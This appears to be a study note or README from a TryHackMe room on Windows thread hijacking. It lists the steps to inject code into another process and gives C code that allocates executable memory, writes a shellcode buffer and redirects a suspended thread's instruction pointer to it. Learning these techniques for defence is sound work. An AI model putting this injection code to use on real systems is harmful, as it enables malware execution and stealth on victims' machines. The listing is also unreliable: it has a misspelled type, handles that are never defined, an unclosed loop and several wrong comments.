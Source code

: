 # Windows Thread Hijacking
Step to Thread Hijacking
1.  Locate and open a target process to control.
2.  Allocate memory region for malicious code.
3.  Write malicious code to allocated memory.
4.  Identify the thread ID of the target thread to hijack.
5.  Open the target thread.
6.  Suspend the target thread.
7.  Obtain the thread context.
8.  Update the instruction pointer to the malicious code.
9.  Rewrite the target thread context.
10.  Resume the hijacked thread.

```c
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);

THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {

if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}

SuspendThread(hThread);


CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);


context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation

SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);

ResumeThread(
	hThread // Handle for the thread
);
```


## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)